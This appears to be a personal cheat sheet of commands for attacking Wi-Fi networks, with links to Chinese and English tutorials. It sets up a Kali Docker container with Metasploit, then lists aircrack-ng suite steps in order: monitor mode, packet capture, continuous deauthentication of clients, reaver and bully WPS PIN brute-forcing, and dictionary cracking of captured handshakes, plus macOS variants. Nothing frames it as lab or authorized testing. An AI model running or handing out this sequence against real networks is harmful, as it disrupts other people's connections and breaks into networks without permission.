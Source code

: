 # kali
https://www.kali.org/news/official-kali-linux-docker-images/

docker pull kalilinux/kali-rolling:latest
docker run -t -i --name kali kalilinux/kali-rolling /bin/bash
apt update && apt -y install metasploit-framework

# wifi
https://blog.csdn.net/qq_34489091/article/details/80229477
https://www.cnblogs.com/diligenceday/p/6344698.html?utm_source=itdadao&utm_medium=referral
https://aquilao.github.io/Blog/Breaking_a_WPS_PIN_to_Get_the_Password_with_Bully/

sudo apt update; upgrade

sudo apt install net-tools wireless-tools aircrack-ng reaver bully

ifconfig; iwconfig

sudo airmon-ng

sudo airmon-ng start wlan0

sudo airodump-ng wlan0mon

sudo aireplay-ng -0 0 -a BSSID -c STATION wlan0mon

reaver -i wlan0mon -b BSSID -vv

reaver -i wlan0mon -b xx:xx -p ping -vv

bully mon0 -b BSSID -e ESSID -c channel

sudo airmon-ng stop wlan0mon

# MAC OS

brew install net-tools wireless-tools aircrack-ng

ifconfig; iwconfig

sudo /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport en0 scan

sudo /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport en0 sniff

sudo aircrack-ng /tmp/*.cap

sudo aircrack-ng -w pwd*.txt -b BSSID /tmp/*.cap
